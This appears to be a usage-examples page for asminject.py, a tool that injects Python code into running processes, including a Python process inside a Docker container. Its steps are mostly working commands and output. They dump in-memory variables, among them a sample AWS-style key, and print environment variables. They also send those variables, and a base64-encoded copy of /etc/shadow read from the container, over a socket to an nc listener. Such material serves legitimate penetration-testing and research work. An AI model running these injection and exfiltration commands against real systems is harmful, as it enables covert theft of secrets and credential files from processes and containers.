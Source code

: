 # asminject.py examples - Python
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)

## Write all global or local variables to standard out

Use [the following Python code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```

e.g.

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 --relative-offsets relative_offsets-usr-bin-python3.9.txt --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

or

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 --relative-offsets relative_offsets-usr-bin-python3.9.txt --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
~~~
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
~~~

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

~~~
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  0.0  0.1  10148  7268 pts/0    S+   14:30   0:00 python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p 00000000 08:01 624517                     /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p 00000000 08:01 626234                     /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
~~~

Copy any necessary binaries out of the container and generate offsets from them. For example:

~~~
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
~~~

In this case, the container is using a version of Python 3 that places most of its functions in `/usr/lib64/libpython3.10.so.1.0` instead of `/usr/bin/python3.10`, so you'll need to inject into it using the `execute_python_code-libpython.s` payload, e.g.:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s --arch x86-64 --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt --stop-method "slow" --var pythoncode 'import os; print(os.environ);'

~~~

This should generate output in the terminal where the container was launched, e.g.:

~~~
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
~~~

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

~~~
% nc -nvlkp 7777
listening on [any] 7777 ...
~~~

Then, in another terminal:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s --arch x86-64 --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt --stop-method "slow" --var pythoncode 'import os; import socket; s = socket.socket()
s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
~~~

You should see the output in the `nc` listener, e.g.:

~~~
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
~~~

Copy a file out of the container:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s --arch x86-64 --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt --stop-method "slow" --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
~~~

The base64-encoded version should appear in the netcat listener:

~~~
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
~~~